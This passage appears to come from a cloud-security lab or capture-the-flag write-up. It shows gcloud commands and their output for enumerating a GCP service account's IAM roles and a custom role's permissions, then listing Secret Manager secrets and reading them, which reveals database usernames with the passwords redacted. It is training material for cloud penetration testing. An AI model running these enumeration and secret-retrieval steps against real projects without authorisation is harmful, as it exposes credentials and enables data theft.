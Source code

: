 
We could also use the following command to enumerate the roles assigned to current user
```
└─$ gcloud projects get-iam-policy gr-proj-1 --flatten="bindings[].members" --format='table(bindings.role, bindings.members)' --filter="bindings.members:appdev@gr-proj-1.iam.gserviceaccount.com"
ROLE                                    MEMBERS
projects/gr-proj-1/roles/CustomRole178  serviceAccount:appdev@gr-proj-1.iam.gserviceaccount.com
roles/cloudsql.client                   serviceAccount:appdev@gr-proj-1.iam.gserviceaccount.com
roles/cloudsql.viewer                   serviceAccount:appdev@gr-proj-1.iam.gserviceaccount.com
roles/iam.roleViewer                    serviceAccount:appdev@gr-proj-1.iam.gserviceaccount.com
roles/secretmanager.secretAccessor      serviceAccount:appdev@gr-proj-1.iam.gserviceaccount.com
                                                                                                  
```

Let's continue by enumerating `CustomRole178`. We can use [permissions.cloud](https://gcp.permissions.cloud/predefinedroles) to look up the permissions included in custom roles.
```
└─$ gcloud iam roles describe CustomRole178 --project=gr-proj-1
description: 'Created on: 2024-01-05'
etag: BwYOd_bj0ew=
includedPermissions:
- iam.serviceAccounts.getIamPolicy
- iam.serviceAccounts.list
- resourcemanager.projects.get
- resourcemanager.projects.getIamPolicy
- secretmanager.locations.get
- secretmanager.locations.list
- secretmanager.secrets.get
- secretmanager.secrets.getIamPolicy
- secretmanager.secrets.list
- secretmanager.versions.get
- secretmanager.versions.list
- storage.buckets.get
- storage.managedFolders.get
- storage.managedFolders.list
- storage.multipartUploads.list
- storage.objects.get
- storage.objects.list
name: projects/gr-proj-1/roles/CustomRole178
stage: ALPHA
title: AppDevRole

```

Seems like we have access to retrieve IAM policy details about the GCP project and service accounts, also read access to Secret Manager. Let's list secrets stored in the project
```
└─$ gcloud secrets list --project=gr-proj-1
NAME                    CREATED              REPLICATION_POLICY  LOCATIONS
customer-app-backend    2024-01-11T13:44:58  automatic           -
retail-db-backup-clone  2024-01-05T13:30:26  automatic           -
```

We can retrieve the secrets
```
└─$ gcloud secrets versions access latest --secret=retail-db-backup-clone --project=gr-proj-1
appdev:<REDACTED>                                                                                                                                                                              ```
```     
```                                                 
└─$ gcloud secrets versions access latest --secret=customer-app-backend --project=gr-proj-1
DB_USER=DB_CONNECT
DB_PASS=<REDACTED>  
```
